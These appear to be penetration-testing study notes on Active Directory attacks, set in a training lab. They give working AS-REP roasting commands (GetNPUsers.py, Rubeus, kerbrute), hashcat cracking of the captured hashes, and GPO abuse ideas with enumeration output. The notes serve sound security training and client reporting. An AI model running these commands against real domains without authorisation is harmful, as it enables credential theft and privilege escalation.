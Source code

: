 With pre-authentication, a user enters their password, which encrypts a time stamp. The Domain Controller will decrypt this to validate that the correct password was used. If successful, a TGT will be issued to the user for further authentication requests in the domain. If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.
Even if we are unable to crack the AS-REP using Hashcat it is still good to report this as a finding to clients (just lower risk if we cannot crack the password) so they can assess whether or not the account requires this setting.
### asrep roasting
```shell-session
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

```powershell-session
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

crack
```shell-session
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```
## Group Policy Object (GPO) Abuse via ACL abuse
GPO misconfigurations can be abused to perform the following attacks:

- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions
- use [group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/), among others, to audit the security of GPOs in a domain.
- This can be helpful for us to begin to see what types of security measures are in place (such as denying cmd.exe access and a separate password policy for service accounts). We can see that autologon is in use which may mean there is a readable password in a GPO, and see that Active Directory Certificate Services (AD CS) is present in the domain. If Group Policy Management Tools are installed on the host we are working from, we can use various built-in [GroupPolicy cmdlets](https://docs.microsoft.com/en-us/powershell/module/grouppolicy/?view=windowsserver2022-ps) such as `Get-GPO` to perform the same enumeration.
```powershell-session
#LAYOFLAND:
$ Get-GPO -All | Select DisplayName

#PV:
$ Get-DomainGPO |select displayname
displayname
-----------
Default Domain Policy
Default Domain Controllers Policy
Deny Control Panel Access
Disallow LM Hash
Deny CMD Access
Disable Forced Restarts
Block Removable Media
Disable Guest Account
Service Accounts Password Policy
Logon Banner
Disconnect Idle RDP
Disable NetBIOS
AutoLogon
GuardAutoLogon
```
